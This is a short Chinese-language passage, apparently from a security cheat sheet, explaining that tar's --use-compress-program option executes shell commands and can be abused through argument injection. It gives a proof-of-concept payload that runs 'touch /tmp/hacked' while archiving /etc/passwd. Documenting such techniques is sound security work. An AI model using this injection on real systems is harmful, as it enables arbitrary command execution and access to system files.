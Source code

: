 ## -–use-compress-program参数

```
-I, --use-compress-program=PROG
                           filter through PROG (must accept -d)
```

tar命令的–use-compress-program参数选项可以执行shell命令，若存在参数注入则可利用。

payload示例如下：

```
tar --use-compress-program='touch /tmp/hacked' -cf /tmp/passwd /etc/passwd
```
